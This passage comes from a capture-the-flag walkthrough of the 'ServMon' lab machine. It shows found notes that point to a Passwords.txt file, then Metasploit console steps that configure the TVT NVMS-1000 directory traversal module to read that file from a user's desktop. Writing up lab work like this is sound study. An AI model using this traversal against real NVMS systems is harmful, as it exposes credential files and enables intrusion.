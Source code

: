 - Confidental.txt

**Nathan,
I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.
Regards, 
Nadine**

- Notes to do.txt

**1) Change the password for NVMS - Complete**
**2) Lock down the NSClient Access - Complete**
**3) Upload the passwords**
**4) Remove public access to NVMS**
**5) Place the secret files in SharePoint**

There seems to be an useful information for some passwords stored on Nathan Desktop folder which we should keep in mind.

### Web

After gathering enough initial information it's safe to take a look on the webpage which represents a simple login page :

![web](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/servmon-walkthrough/web-servmon.png)

The webpage seems like an administration panel for a CCTV system so for the sake of simplicity I decided to search for ``NVMS-1000`` on msf to see if there was any ready made exploit that I could make use of. (not useful for OSCP tho) 

```console
msf5 > search nvms

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/tvt_nvms_traversal  2019-12-12       normal  No     TVT NVMS-1000 Directory Traversal
```

## User Escalation

The dots starting to connect!
I came up with a directory traversal exploit for the following NVMS version that could help me grab the previously mentioned ``Passwords.txt`` from Nathan's desktop folder.

### metasploit

We move on by setting the needed options to the metasploit module and giving it a go : 

```console
msf5 > use auxiliary/scanner/http/tvt_nvms_traversal
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set rhosts servmon.htb
rhosts => servmon.htb
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set filepath /users/nathan/desktop/passwords.txt
filepath => /users/nathan/desktop/passwords.txt
```
